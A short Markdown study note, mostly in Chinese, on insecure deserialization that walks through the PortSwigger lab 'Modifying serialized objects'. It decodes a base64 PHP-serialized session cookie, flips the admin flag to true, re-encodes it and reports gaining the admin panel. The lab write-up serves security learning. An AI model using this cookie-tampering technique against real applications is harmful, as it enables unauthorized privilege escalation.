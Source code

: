 ```yaml
---
title: Insecure deserialization
description: Insecure deserialization
---
```


## PHP serialization format

https://portswigger.net/web-security/deserialization/exploiting#php-serialization-format

## Java serialization format

https://portswigger.net/web-security/deserialization/exploiting#java-serialization-format

## Lab: Modifying serialized objects

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/deserialization/exploiting#modifying-object-attributes                      |
| Lab       | https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects |

登入後，看到 Cookie `session: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=` (URL Decoded 版本)

```js
atob(
  "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=",
);
// O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

嘗試構造

```js
btoa(`O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}`);
// Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```

塞回 Cookie.session，重整網頁，即可看到 Admin Panel～

## 參考資料

- https://portswigger.net/web-security/deserialization
